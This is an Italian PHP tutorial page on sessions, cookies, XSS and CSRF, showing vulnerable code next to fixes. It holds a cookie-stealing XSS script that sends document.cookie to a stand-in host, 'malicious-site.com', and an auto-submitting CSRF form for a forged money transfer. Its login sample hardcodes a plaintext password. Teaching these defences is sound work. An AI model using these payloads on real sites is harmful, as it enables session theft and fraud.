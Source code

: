 [⬅️ [TORNA ALL'INDICE] ](../README.md)

## Esempi Pratici

### Esempio di Gestione Sessione
```php
// Login semplice
session_start();
$username = "mario";
$password = "password123";

// Verifica credenziali e salva in sessione
if ($username === "mario" && $password === "password123") {
    $_SESSION['logged_in'] = true;
    $_SESSION['username'] = $username;
}
```

In un'altra pagina, verifica se l'utente è loggato:

```php
session_start();
if (!isset($_SESSION['logged_in'])) {
    echo "Devi effettuare il login";
} else {
    echo "Benvenuto " . $_SESSION['username'];
}
```

### Esempio di Gestione Cookie
```php
// Salva un cookie semplice
setcookie('lingua', 'italiano', time() + (86400 * 30)); // dura 30 giorni
```

In un'altra pagina, leggi il cookie:

```php
if (isset($_COOKIE['lingua'])) {
    echo "La tua lingua è: " . $_COOKIE['lingua'];
} else {
    echo "Lingua non impostata";
}
```

## Vulnerabilità di Sicurezza

### Cross-Site Scripting (XSS)
XSS è una vulnerabilità che permette agli attaccanti di iniettare codice JavaScript maligno nel tuo sito web. Questo codice viene poi eseguito nel browser degli utenti che visitano il sito.

#### Esempio di Vulnerabilità XSS

Ecco un esempio di codice vulnerabile, dove il parametro 'name' viene mostrato direttamente senza sanitizzazione:

```php
<?php
echo "Benvenuto, " . $_GET['name'];
?>
```

Un attaccante potrebbe usare un URL come:
`http://tuosito.com/welcome.php?name=<script>document.cookie</script>`
Questo ruberebbe i cookie dell'utente.

Ecco invece il codice sicuro:

```php
<?php
echo "Benvenuto, " . htmlspecialchars($_GET['name'], ENT_QUOTES, 'UTF-8');
?>
```

#### Come i Cookie sono Vulnerabili a XSS

Un attaccante potrebbe inserire questo script maligno:

```javascript
<script>
  // Invia tutti i cookie a un server maligno
  fetch('https://malicious-site.com/steal-cookies?' + document.cookie);
</script>
```

Per proteggere i cookie, è necessario utilizzare le appropriate flag di sicurezza:

```php
setcookie("session_id", "123456", [
    'httponly' => true,    // Previene l'accesso via JavaScript
    'secure' => true,      // Solo HTTPS
    'samesite' => 'Strict' // Previene CSRF
]);
```

### Cross-Site Request Forgery (CSRF)
CSRF è un attacco che forza un utente autenticato a eseguire azioni indesiderate su un sito web dove è già autenticato.

#### Esempio di Vulnerabilità CSRF

Ecco una pagina vulnerabile di trasferimento denaro:

```php
<?php
if ($_POST['amount'] && $_POST['to']) {
    transferMoney($_POST['to'], $_POST['amount']);
}
?>
```

Un attaccante potrebbe creare una pagina maligna che sfrutta questa vulnerabilità:

```html
<html>
<body onload="document.forms[0].submit()">
    <form action="http://banca.com/transfer.php" method="POST">
        <input type="hidden" name="amount" value="1000">
        <input type="hidden" name="to" value="attaccante">
    </form>
</body>
</html>
```

#### Protezione da CSRF

Per prima cosa, generiamo un token CSRF:

```php
<?php
session_start();
if (empty($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
```

Poi, includiamo il token nel form HTML:

```html
<form method="POST" action="/transfer.php">
    <input type="hidden" name="csrf_token" 
           value="<?php echo $_SESSION['csrf_token']; ?>">
    <input type="text" name="amount">
    <input type="text" name="to">
    <button type="submit">Trasferisci</button>
</form>
```

Infine, verifichiamo il token nella richiesta:

```php
if (!hash_equals($_SESSION['csrf_token'], $_POST['csrf_token'])) {
    die('CSRF token non valido');
}
```

[⬅️ [TORNA ALL'INDICE] ](../README.md)